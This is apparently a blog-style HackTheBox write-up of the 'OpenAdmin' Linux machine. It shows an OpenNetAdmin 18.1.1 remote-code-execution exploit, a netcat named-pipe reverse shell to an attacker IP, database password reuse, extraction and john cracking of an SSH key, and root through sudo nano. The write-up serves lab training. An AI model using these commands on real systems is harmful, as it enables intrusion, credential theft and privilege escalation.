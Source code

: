 ```yaml
---
title: OpenAdmin - easy HTB
date: 2023-10-10 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /openadmin
tags: [htb, writeup, easy, Linux, CVE, Privileges Escalation, 4nh4ck1ne]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Easy**
- Author: **4nh4ck1ne**

### Scanning 

the challenges start with a scan of the most common ports: `nmap -A 10.10.10.171 -T4`

```       
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

We can see it is an Ubuntu machine !

### Enumeration 

before walk on the app you can lauch a gobuster brute force scan: `gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]

```

If you go on `/music` you can see an bouton name login. 

![/music](/assets/OpenAdmin/music.png)

Yon are redirect to an web page `/ona`, it is an app named OpenNetAdmin lets if an exploit existe on this current version (v18.1.1).

![ona](/assets/OpenAdmin/Ona.png)

Seems that yes because on exploitdb can find a code to exploit the vulnerability more it is an rce, this vulnerability will give us directly access to the server. If we look for a POC in python that works well. [POC](https://github.com/amriunix/ona-rce/tree/master)

```
#install reqirements
pip3 install --user requests

#Get the POC
git clone https://github.com/amriunix/ona-rce.git

#lauche the exploit
python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We are on the machine! I will migrate my shell to a tty shell thanks to a pwncat:

```
#lauch pwncat
pwncat :9001

#run the reverse connection
sh$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.3 9001 >/tmp/f
```

### Privileges Escalation

the first mouvement is www-data => jimmy so we now have a stable shell. To begin the elevation of privileges we will look at the files of the website at the password quetes.

in the site folders we can find in this directory /local/config a file named "database_settings.inc.php" containing a mysql database password.

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

I have tried to access the local database that which feasible but no information interested is there. I then try to reuse password on local users (joanna, jimmy) and that market for jimmy we are now jimmy : `su jimmy
#enter password n1nj4W4rri0R!`


Ok we are now jimmy user next is to become joanna.

If we are still looking in the web file you will necessarily see from the rating of/var/www. you will still find counting in /html we will say that this sounds the web file that we had everything with gobuster. If we look at the side of "internal" a whole new world offered to us. If we look at the confiuguration side of the apache2 server we can see that there is an active virtualhost on port 52846.

```
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Let’s look at the php file more pret including main.php: `cat main.php
`

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

it seems that this application displays the private key of the user joanna tries to curl the url and see the result: `curl http://localhost:52846/main.php`

BIIM we have joanna’s private key, try to connect with: 
```
chmod 600 id_rsa

ssh -i id_rsa joanna@10.10.10.171                           
Enter passphrase for key 'id_rsa': 
```

Thin the key is protected by a passphrase let’s try cracking with john.

```
ssh2john id_rsa > passphrase.txt

john passphrase.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We have cracked the key we can now log in and enter the secret of the key.

ok we are now on user Joanna to start enumeration I directly look at the sudo rights.

```
sudo -l

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

So the user joanna can therefore launch the command/bin/nano/opt/priv without password with must root, well let’s look at [GTfobins](https://gtfobins.github.io/#+sudo)  if there is a way to abuse nano.

![gtfobins](/assets/OpenAdmin/Gtfobins.png)

the abuse of nano binary is done as follows:

```
sudo /bin/nano /opt/priv

#Press control and R touch
^R
#Press ctrl+x touche
^X
#run the command
reset; sh 1>&0 2>&0
```

you Get the root Great job !! 

![root](/assets/OpenAdmin/root.png)
